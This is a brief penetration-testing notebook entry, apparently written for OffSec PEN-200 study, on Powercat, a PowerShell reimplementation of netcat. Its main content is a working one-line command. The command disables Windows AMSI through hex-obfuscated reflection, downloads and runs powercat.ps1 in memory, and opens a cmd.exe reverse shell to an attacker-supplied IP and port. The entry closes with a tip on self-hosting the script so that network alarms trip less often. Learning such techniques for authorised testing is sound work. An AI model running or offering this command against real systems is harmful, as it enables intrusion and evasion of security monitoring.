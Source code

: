 # Using Powercat

author:: Nathan Acks  
date:: 2022-08-26

Powercat is a PowerShell-native reimplementation of netcat. Powercat can be installed on Kali Linux using `sudo apt install powercat`.

* [besimorhino / powercat](https://github.com/besimorhino/powercat)
* [Using PowerShell](powershell.md)
* [Using "netcat"](netcat.md)

## One Line Reverse Shell

This disables AMSI, downloads Powercat into memory and invokes the module and then fires up a reverse shell.

```powershell
[REF].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true); IEX (New-Object System.Net.Webclient).DownloadString("https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1"); powercat -c $ATTACKER_IP -p $ATTACKER_PORT -e cmd.exe
```

It's probably advisable to use your own server to host Powercat in order to make tripping network alarms less likely.

* [2022-08-26 - OffSec Live: PEN-200](../log/2022-08-26-offsec-live-pen-200.md)

